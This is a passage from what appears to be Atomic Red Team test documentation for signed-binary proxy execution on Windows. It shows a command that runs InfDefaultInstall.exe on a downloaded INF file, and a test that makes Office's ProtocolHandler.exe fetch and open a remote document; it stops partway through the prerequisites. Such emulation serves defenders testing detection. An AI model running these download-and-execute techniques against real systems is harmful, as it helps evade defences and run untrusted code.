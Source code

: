 ```cmd
InfDefaultInstall.exe "#{inf_to_execute}"
```

#### Dependencies: Run with `powershell`!

##### Description: INF file must exist on disk at specified location (#{inf_to_execute})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{inf_to_execute}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{inf_to_execute}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218/src/Infdefaultinstall.inf" -OutFile "#{inf_to_execute}"
```

<br/>
<br/>

## Atomic Test #4 - ProtocolHandler.exe Downloaded a Suspicious File

Emulates attack via documents through protocol handler in Microsoft Office. On successful execution you should see Microsoft Word launch a blank file.

**Supported Platforms:** Windows

**auto_generated_guid:** db020456-125b-4c8b-a4a7-487df8afb5a2

#### Inputs:

| Name       | Description     | Type | Default Value                                                                                         |
| ---------- | --------------- | ---- | ----------------------------------------------------------------------------------------------------- |
| remote_url | url to document | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218/src/T1218Test.docx |

#### Attack Commands: Run with `command_prompt`!

```cmd
FOR /F "tokens=2*" %a in ('reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\Winword.exe" /V PATH') do set microsoft_wordpath=%b
call "%microsoft_wordpath%\protocolhandler.exe" "ms-word:nft|u|#{remote_url}"
```

#### Dependencies: Run with `powershell`!

##### Description: Microsoft Word must be installed

##### Check Prereq Commands:
